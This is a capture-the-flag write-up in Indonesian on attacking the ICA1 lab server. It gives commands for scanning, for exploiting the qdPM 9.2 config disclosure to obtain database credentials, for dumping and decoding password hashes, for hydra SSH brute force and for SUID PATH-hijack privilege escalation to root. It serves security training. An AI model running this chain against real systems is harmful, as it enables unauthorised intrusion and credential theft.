 # Laporan Serangan Server ICA1

Ini adalah hasil serangan yang telah dilakukan pada server ICA1 untuk latihan serangan.

## Pencarian IP Address Server

- cek ip pc : `ip a` atau `ifconfig` 
- nmap: `nmap -sP <network_id>/<prefix>`
- uji koneksi, kali linux dan server ICA1: `ping <ip_server>`

## Scan Port Server dengan NMAP
- nmap : `nmap -sC -sV -p- <ip_server>`

**Port** yang terbuka dari server adalah :
- ssh (22)
- http (80)
- mysql (3306) 
- mysqlx (33060)

## Access HTTP (80)
- web login menggunakan qdPM 9.2
- coba cari exploit qdPM 9.2
```
searchsploit qdPM 9.2
```
- jika tidak tersedia maka browse di google (loncat ke terapkan exploit)
- access exploit
```
cat /usr/share/exploitdb/exploits/php/webapps/50176.txt
```
- terapkan exploit : `wget http://<ip_server>/core/config/databases.yml`


## Access MYSQL (3306)
- login mysql : `mysql -u qdpmadmin -h <ip_server> -p`
- password : `UcVQCMQk2STVeS6J`
```
show databases;
```
```
use staff;
```
```
show tables;
```
```
select * from login;
```
```
select password from login;
```
- simpan hasil password pada file : `pass_hash.txt`
- simpan hasil username pada file : `username.txt`
```
select * from user;
```
```
select name from user;
```
- decode hash pada file `pass_hash.txt`
```
while read anangLine; do echo "$anangLine" | base64 --decode; echo ""; done < pass_hash.txt
```
- buat file `pass.txt` yang berisi hasil output decode
- ubah username menjadi lower
```
while read anangLine; do echo "$anangLine" | tr '[:upper:]' '[:lower:]'; done < username.txt
```
- ubah file `username.txt` dengan hasil output





## Access SSH (22)
gunakan hydra untuk  menemukan user dan password
```
hydra -L username.txt -P pass.txt ssh://<ip_server>
```
- login user **travis** : `ssh travis@<ip_server>`
- login juga user **dexter** : `ssh dexter@<ip_server>`
- masing masing password hasil dari hydra
- pada user travis, **flag user**
```
cat user.txt
```
- pada user dexter
```
cat note.txt
```




## Privilege Escalation
- gunakan user **dexter**
- cari yang berhubungan dengan root
```
find / -perm -u=s 2>/dev/null
```
- jalankan
```
/opt/get_access
```
- jika tidak bisa (serivce are disabled), maka ubah path
```
echo $PATH
```
```
echo '/bin/bash' >> /tmp/cat
```
```
export PATH=/tmp:$PATH
```
```
echo $PATH
```
- maka path sudah berubah menjadi `/tmp: . . .`

- ubah mode **myroot**
```
chmod +x /tmp/cat
```
- jalankan get_access lagi
```
/opt/get_access
```
- temukan flag
```
cat /root/root.txt
```
- jika perintah cat tidak bekerja
- copy flag pada home
```
scp /root/root.txt /home/dexter
```
- ubah mode
```
chmod 777 /home/dexter/root.txt
```
- lakukan exit beberapa kali (sampai logout ssh)
```
exit
```
- konesikan ulang ssh
- dan lihat **flag root**
```
cat root.txt
```

**note :** jika mau akses root maka ulangi langkah `Privilege Escalation`